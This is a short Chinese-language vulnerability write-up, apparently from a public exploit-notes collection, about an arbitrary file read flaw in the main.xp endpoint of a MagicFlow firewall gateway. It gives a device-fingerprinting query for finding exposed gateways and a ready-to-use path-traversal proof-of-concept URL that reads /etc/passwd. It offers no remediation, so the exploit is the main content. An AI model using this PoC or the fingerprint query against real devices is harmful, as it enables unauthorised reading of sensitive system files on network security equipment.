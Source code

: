 # MagicFlow 防火墙网关 main.xp 任意文件读取漏洞

## 漏洞描述

MagicFlow 防火墙网关 main.xp 存在任意文件读取漏洞，攻击者通过构造特定的Url获取敏感文件

## 漏洞影响

```
MagicFlow 防火墙网关
```

## 网络测绘

```
app="MSA/1.0"
```

## 漏洞复现

登录页面如下

![](./images/202202162301720.png)

构造POC

```plain
/msa/main.xp?Fun=msaDataCenetrDownLoadMore+delflag=1+downLoadFileName=msagroup.txt+downLoadFile=../etc/passwd
```

![](./images/202202162301323.png)